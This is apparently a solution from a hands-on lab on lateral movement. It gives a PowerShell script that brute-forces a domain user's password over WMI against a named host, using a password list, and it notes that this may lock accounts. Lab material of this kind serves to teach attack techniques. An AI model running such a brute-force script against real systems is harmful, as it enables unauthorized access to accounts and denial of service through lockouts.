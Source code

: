 ## Hands On 6 - Lateral Movement, Password Brute Force

#### Use WMI to brute force password for a given user in the domain
Note: This solution does not account for password policies.  It has the potential to lock a user's account

```
$password_list = Get-Content "C:\Users\admin\Documents\password_list.txt"
$user = "home.local\user3"
foreach ($password in $password_list) {

  $secure_string = ConvertTo-SecureString -string $password -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -Argument $user,$secure_string

  try{
    Get-WmiObject -class win32_computerSystem -Computer Win7x64 -Credential $Credential
    Write-output "$user : $password"
  } catch { continue }
}
```
